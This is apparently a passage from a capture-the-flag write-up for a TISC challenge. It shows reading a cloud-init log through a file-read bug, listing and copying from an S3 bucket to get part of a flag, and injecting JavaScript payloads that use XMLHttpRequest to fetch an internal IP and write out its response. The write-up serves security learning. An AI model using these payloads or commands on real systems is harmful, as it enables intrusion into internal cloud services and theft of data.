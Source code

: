 I tried various local files until I hit /var/log/cloud-init-output.log and was greeted with a 97 page PDF... 

But I just used Control + F and searched for "s3://" in order to find the name of the bucket and found these lines:

```
s3://claws-web-setup-bucket/app.zip to home/ubuntu/app.zip Archive: /home/ubuntu/app.zip creating: /home/ubuntu/app/ inflating:
/home/ubuntu/app/requirements.txt creating: /home/ubuntu/app/static/ inflating:
/home/ubuntu/app/static/certificate.png inflating: /home/ubuntu/app/static/index-bg.svg inflating:
/home/ubuntu/app/app.py
```

I ran 

```
aws s3 ls s3://claws-web-setup-bucket
```

and got 

```
2025-09-24 01:26:22    1179262 app.zip
2025-09-24 01:06:34         34 flag1.txt
```

Damn flag1.txt..., no wonder there is another instance.

Running

```
aws s3 cp s3://claws-web-setup-bucket/flag1.txt ./flag1.txt
cat .\flag1.txt
```

gives me TISC{iMPURrf3C7_sSRFic473_Si73_4nd

So I guess its time for the next part... 

So I injected a new payload

```
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write((this.responseText))};
x.open("GET","http://172.31.73.190");
x.send()
</script>
```

and it actually worked, lol, but the html is rendered tho.

So I used a new payload where I just created a new document and set its text to the responseText.

```
<script>
var x=new XMLHttpRequest();
x.onload=function(){
	document.open();
	document.write('<pre id=o style="margin:0;white-space:pre-wrap"></pre>');
	document.close();
	o.textContent=this.responseText
};
x.open('GET','http://172.31.73.190');x.send();
</script>
```

